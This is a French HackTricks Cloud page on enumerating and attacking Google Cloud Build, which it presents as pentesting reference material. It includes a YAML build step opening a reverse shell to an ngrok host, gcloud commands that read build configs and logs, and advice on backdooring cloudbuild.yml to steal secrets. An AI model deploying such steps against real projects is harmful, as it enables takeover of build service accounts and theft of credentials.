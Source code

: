 # GCP - Enumération de Cloud Build

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Informations de base

Google Cloud Build est une plateforme de CI/CD gérée qui **automatise la construction de logiciels** et les processus de publication, s'intégrant aux **dépôts de code source** et prenant en charge un large éventail de langages de programmation. Il **permet aux développeurs de construire, tester et déployer du code automatiquement** tout en offrant la possibilité de personnaliser les étapes de construction et les flux de travail.

Chaque déclencheur Cloud Build est **lié à un référentiel Cloud ou directement connecté à un référentiel externe** (Github, Bitbucket ou Gitlab).

Il est possible de configurer un Cloud Build pour **exiger des approbations pour les exécutions de construction** (désactivé par défaut).

Le **compte de service a la portée `cloud-platform`**, il peut donc **utiliser tous les privilèges**. Si **aucun compte de service n'est spécifié** (comme lors de la soumission), le **compte de service par défaut** `<numéro-projet>@cloudbuild.gserviceaccount.com` sera **utilisé**.

{% hint style="success" %}
Je n'ai trouvé aucun moyen de voler le jeton Github/Bitbucket à partir d'ici ou des référentiels Cloud car lorsque le référentiel est téléchargé, il est accédé via une URL [https://source.cloud.google.com/](https://source.cloud.google.com/) et Github n'est pas accessible par le client.
{% endhint %}

### Stockage

Parfois, Cloud Build **générera un nouveau stockage pour stocker les fichiers du déclencheur**. Cela se produit par exemple dans l'exemple que GCP propose avec :
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Un bucket de stockage appelé [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) est créé pour stocker un fichier `.tgz` contenant les fichiers à utiliser.

### Obtenir un shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Énumération

Vous pourriez trouver des **informations sensibles dans les configurations de construction et les journaux**.
```bash
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs
```
## Élévation de privilèges

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Accès non authentifié

### cloudbuild.yml

Si vous obtenez un accès en écriture sur un référentiel contenant un fichier nommé **`cloudbuild.yml`**, vous pouvez **introduire une porte dérobée** dans ce fichier, qui spécifie les **commandes qui vont être exécutées** à l'intérieur d'un Cloud Build et exfiltrer les secrets, compromettre ce qui est fait et compromettre également le **compte de service Cloud Build**.

{% hint style="info" %}
Notez que GCP offre la possibilité aux administrateurs de contrôler l'exécution des systèmes de construction à partir de PR externes via "Comment Control". Comment Control est une fonctionnalité où les collaborateurs/propriétaires de projet **doivent commenter "/gcbrun" pour déclencher la construction** par rapport à la PR et l'utilisation de cette fonctionnalité empêche intrinsèquement toute personne sur Internet de déclencher vos systèmes de construction.
{% endhint %}

Pour plus d'informations connexes, vous pouvez consulter la page sur la façon d'attaquer les actions Github (similaire à cela) :

{% content-ref url="../../../pentesting-ci-cd/github-security/abusing-github-actions/" %}
[abusing-github-actions](../../../pentesting-ci-cd/github-security/abusing-github-actions/)
{% endcontent-ref %}

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
